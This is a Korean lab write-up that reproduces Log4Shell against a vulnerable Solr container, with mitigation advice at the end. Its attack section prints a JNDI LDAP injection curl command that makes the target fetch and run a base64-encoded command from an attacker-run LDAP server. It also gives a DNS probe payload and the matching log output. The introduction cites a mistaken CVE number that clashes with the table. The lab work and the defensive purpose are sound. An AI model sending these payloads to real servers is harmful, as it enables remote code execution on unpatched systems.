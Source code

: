 # 개요
이번 Write up 에서는 [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub) Repository vulhub을 기반으로한 한국어 번역 및 컨텐츠 추가에대한 과제로 내가 선택한 취약점인 log4shell이라고 불리는 log4j의 취약점인 `CVE-2021-33228`에 대해 작업을 진행했습니다.

**Contributors**
- [김지민 (@Antimony02)](https://github.com/Jimin0605)

<br>

| 정보             | 설명                                             |
| ----------------| ------------------------------------------------ |
| **이름**         | Log4shell(CVE-2021-44228)                |
| **심각도**       | 심각                                            |
| **CVSS**        | 10.0                                              |
| **CVSS String** | 10.0 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H   |



### Log4shell이란
#### JNDI
우선 JNDI(Java Naming and Directory Interface)는 클라이언트나 서버에서 제공하는 데이터 및 객체를 lookup하기 위한 자바 API다. 쉽게말해 연결하고 싶은 데이터베이스의 DB Pool을 미리 Naming 시켜주는 방법중에 하나이다. WAS의 데이터베이스 정보에 JNDI를 설정해 놓으면 웹 애플리케이션은 JNDI만 호출하면 간단하게 데이터를 전달할 수 있다.

따라서 LDAP서버에서 JNDI를 이용해 디렉토리 서비스에 연결하고 객체를 가져와 보내기위해 사용할 것이다.

#### Log4j
Log4j는 로그에 대한 라이브러리이다. 그냥 기본적인 log기능으로 대체하면 되지 않나 싶지만. Log4j는 로그를 포맷팅, 필터링이 가능하고, 어플리케이션의 파일로 이를 기억하는것 이외에도 정말 유용한 기능들이 있기에 개발자 에게는 매우 좋은 라이브러리이다. 

#### Log4shell
Log4shell의 취약점은 log4j의 lookup기능중 JNDI looup기능을 지원으로 발생한 취약점이다.log4j가 로깅을 하는 부분에서 `$(jndi:ldap:[LDAP_IP])`와같은 메세지를 남기면 해당 서버에 접속해 객체를 참조하게되는데, 즉 해당 서버에 명령어를 입력하는 객체를 참조하게 될 경우 RCE취약점이 발생되므로 굉장히 위험한 공격이다. 추가로 더해서 로깅을 하는 부분은 로그인, 사용자이름, 와이파이이름 등 사용하기 나름대로 정말 다양해 사용자이름을 바꾸던가, 와이파이이름을 바꾸는 것만으로도 취약점 공격이 가능하다는 점에서 굉장히 파급력이 크다.

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/1.png)

<br>

log4j는 2015년 Oracle에 따르면 Java는 130억개의 기기에서 구동중이다. 이렇게 많이 사용하는 만큼 애플, 텐센트, 아마존, 테슬라, 클라우드플레어, 스팀, 마인크래프트, 구글, github 등 정말 많은 대기업들이 이 Log4shell취약점에 노출되어있었다. 

결론적으로 log4shell은 당시 해당 취약점이 있는 log4j를 사용중인 회사는 굉장히 많고, 공격하기도 굉장히 쉽고, 효과도 엄청난 Zero-day 취약점이라는것이다.

### 실습환경 구축
실습환경으로는 docker로 구축을 할것이다.

|Attacker       |Victim     |
|:-------------:|:---------:|
|Ubuntu:latest  |solr:8.11.0|

docker hub에서 2개의 image들을 pull한다.
```bash
$ docker pull vulhub/solr:8.11.0
$ docker pull antimony02/log4shell_jndi
```

여기서 vulhub/solr:8.11.0은 log4shell 취약점이 있는 Victim서버이고, antimony02/log4shell_jndi는 악성 Class 파일을 다운로드 할 수 있도록 설계된 LDAP서버이다. 이것을 이용해 log4shell 공격으로 solr서버를 공격할 것이다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/2.png)

docker pull이 완료된 이후에 `docekr compose up -d`로 컨테이너를 실행시켜준다. 컨테이너를 끌때는 `docker compose down`을 하면 된다. 실행을 완료한 후에 Attacker 컨테이너의 log를 확인해 LDAP서버도 제대로 열렸는지와 해당 서버의 IP를 확인한다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/3.png)
```bash
$ docker ps # 컨테이너 ID확인
$ docker logs ID
```

여기까지 오류없이 잘 작동이 됐으면 환경 구축은 완료했다.

<br>

### Log4shell 공격
log4shell취약점은 로깅을 하는데에서 발생하므로 어떤부분에서 로깅이 발생하는지 살펴봐야한다. 간단히 말해서 `${jndi:dns://${sys:java.version}.example.com}` 이 JNDI쿼리를 트리거할 수 있는 부분에 이 페이로드를 넣어야한다.

vulnhub에서는 `/solr/admin/cores?action=${jndi:dns://${sys:java.version}.example.com}`

이경로를 통해 페이로드를 삽입하겠다.

```bash
curl 'http://127.0.0.1:8983/solr/admin/cores?action=$\{jndi:ldap://{LDAP_IP}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=\}'
```
이 LDAP경로는 `dG91Y2ggL3RtcC9oYWNrZWQ=`뒤쪽 base64로 인코딩된 문자열을 base64로 디코딩한 뒤 RCE를 날린다.

예시로 `touch /tmp/hacked`를 base64로 인코딩해 넣어줘 파일이 제대로 생성이 되는지 확인하겠다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/4.png)

요청은 제대로 간것을 확인했다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/5.png)

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/6.png)

```
2023-10-31 22:20:45 2023-10-31 13:20:44.903 INFO  (qtp860481979-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={asdf=${jndi:ldap://192.168.80.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ%3D}} status=0 QTime=0
```
두 서버모두 요청이 제대로 잘 전달이 된것을 확인했고, 정말 `/tmp/hacked` 가 만들어졌는지 확인해보겠다. 확인하는 방법으로는 터미널에서 `docker exec -it victim_comtainer_ID /bin/bash`를 통해 직접 접속해 확인할 수 있다. 나는 docker desktop에서 확인해봤다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/7.png)

잘 생성이 되었으므로 Log4shell 취약점 공격에 성공했다.

<br>

### 대응방안
해당 취약점을 막기위해서는 log4shell 취약점이 있는 버전의 log4j를 사용을 하지 않는것이다.

**Log4shell 영향을 받는 버전**
- Log4 2.0-beta9 ~ 2.14.1 이하 버전
- Log4j 2.0-beta9 ~ 2.15.0 이하 버전
- Log4j 1.x 버전

만약 어쩔 수 없는 이유로 해당 버전들을 사용할 경우에는 log4j의 JNDI LookUp을 비활성화 하고, 공격자가 알 수 없는 형태의 파라미터로 로그를 남기고, log4j를 사용하는 시스템에서 LDAP등 JNDI앤드 포인트와 통신이 불가능 할경우에 해당 취약점을 막을 수 있다.


## Reference
[CVE-2021-44228]log4j 실습 - [https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1](https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1)

Youtube_노마드코더 - [https://www.youtube.com/watch?v=kwS3twdVsko&t=281s](https://www.youtube.com/watch?v=kwS3twdVsko&t=281s)

vulbuh - [https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

 [https://github.com/black9/Log4shell_JNDIExploit](https://github.com/black9/Log4shell_JNDIExploit)
